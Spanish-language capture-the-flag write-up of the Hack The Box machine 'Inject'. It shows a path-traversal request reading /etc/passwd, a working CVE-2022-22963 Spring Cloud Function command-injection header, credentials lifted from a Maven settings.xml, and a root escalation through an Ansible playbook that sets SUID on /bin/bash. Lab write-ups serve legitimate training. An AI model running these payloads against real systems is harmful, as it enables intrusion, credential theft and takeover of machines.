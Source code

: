 ```yaml
---
title: Inject
date: 2023-03-11 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-11 15:09 CST
Nmap scan report for 10.129.34.101
Host is up (0.12s latency).

PORT   STATE  SERVICE VERSION
22/tcp open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
80/tcp closed http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
```
En primera nos encontramos con una página web, que tienes un registro, un login y un upload. Al momento de subir un archivo, solo acepta imágenes. Al intentar descargar la imagen nos muestra la ruta donde podemos obtenerla. En la url vemos que usa el wrapper img para mandar a llamar a la imagen por lo que intentamos local file inclusión y obtenemos el /etc/passwd con éxito.

![imagen1](/assets/images/Injection/injection1.png)

![imagen2](/assets/images/Injection/injection2.png)

```shell
❯ curl 'http://10.129.34.101:8080/show_image?img=../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```
En este punto intentamos enumerar varios archivos importantes del proc pero no tuve éxito, cuando ponemos un archivo que no existe nos marca una ruta donde está la aplicación montada.

```shell
{"timestamp":"2023-03-11T23:06:21.243+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/../../../../../../tdf] cannot be resolved in the file system for checking its content length","path":"/show_image"}   
```
Por la estructura pareceria un proyecto de maven, igualmente después me di cuenta que podíamos listar las carptas y archivos con lfi que encontramos que en todo caso sería un path traversal.

```shell
❯ curl --output - 'http://10.129.34.101:8080/show_image?img=../../../../../../var/www/WebApp/src/main/java/com/example/WebApp/user'
User.java
UserController.java
```
En este punto no encotramos nada valioso que pudieramos explotar, al revisar el pom.xml encontramos la versión 3.2.2 de springframework.cloud, investigando un poco encontramos este [Link](https://github.com/me2nuk/CVE-2022-22963 "repositorio") que nos indica que esa versión es vulnerable a remote code execution. Seguimos los pasos que nos menciona y podemos entablarnos una shell.

```shell
❯ curl --output - 'http://10.129.34.101:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml'
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	<SNIP>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<SNIP>
	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```
```console
❯ curl -X POST  http://10.129.34.101:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
<SNIP>
{"timestamp":"2023-03-11T22:53:24.571+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}                                                                                                                                                                                   
❯ curl --output - 'http://10.129.34.101:8080/show_image?img=../../../../../../tmp'
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
hsperfdata_frank
pwned
<SNIP>
```
Una vez dentro empezamos a enumerar para conseguir información, dentro de la carpeta de frank que es con el usuario que obtuvimos acceso, encontramos una carpeta m2, dentro había un settings.xml donde pudimos obtener unas credenciales de phil.

```shell
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
Con estas credenciales pudimos darnos una bash como el usuario phil, revisando procesos con pspy encontramos que root está ejecutando ansible que es una plataforma de software libre para configurar y administrar ordenadores. Combina instalación multi-nodo, ejecuciones de tareas ad hoc y administración de configuraciones. Adicionalmente, Ansible es categorizado como una herramienta de orquestación. Dentro de la carpeta /opt/autmoation/tasks encontramos el archivo yml con el que ansible crea los playbooks. Creamos nuestro propio archivo yml en donde ponemos la propiedad ansible.builtin.shell para ejecutar comandos.

```shell
- hosts: localhost
  tasks:
    - name: Priv esc
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
```
Con esto logramos obtener la bash suid y rootear la máquina.

```shell
phil@inject:/opt/automation/tasks$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
```
